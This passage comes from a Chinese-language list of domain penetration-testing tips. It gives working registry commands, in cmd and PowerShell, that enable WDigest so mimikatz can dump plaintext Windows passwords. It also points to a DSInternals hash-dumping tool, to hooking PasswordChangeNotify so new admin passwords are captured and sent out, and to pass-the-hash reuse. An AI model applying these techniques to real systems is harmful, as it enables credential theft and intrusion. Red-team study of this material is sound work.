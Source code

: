 使用powershell：DSInternals PowerShell Module

https://www.dsinternals.com/wp-content/uploads/DSInternals_v2.8.zip

适用条件：

Windows PowerShell 3.0 or 3.0+

.NET Framework 4.0 or 4.0+

参考：

《导出当前域内所有用户hash的技术整理》

《利用Powershell快速导出域控所有用户Hash》

#### Tips 17. 导出Windows系统明文口令

Windows Server 2012默认无法使用mimikatz导出明文口令，部分Windows Server 2008也一样

解决方法：启用Wdigest Auth

cmd:

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

```

or

powershell:

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

```

重启或者用户再次登录，能够导出明文口令

参考：《域渗透——Dump Clear-Text Password after KB2871997 installed》

#### Tips 18. 可通过Hook PasswordChangeNotify实时记录域控管理员的新密码

当然，可选择保存在本地或是将密码上传至服务器

参考：《域渗透——Hook PasswordChangeNotify》

#### Tips 19. 在域渗透时要记得留意域内主机的本地管理员账号

如果管理员疏忽，域内主机使用相同的本地管理员账号，可以通过pass-the-hash远程登录域内其他主机

参考：《域渗透——Local Administrator Password Solution》

#### Tips 20. 通过powershell获取dll的导出函数

https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Get-Exports.ps1

```
Get-Exports -DllPath c:\Windows\system32\dimsjob.dll -ExportsToCpp C:\test\export.txt

```
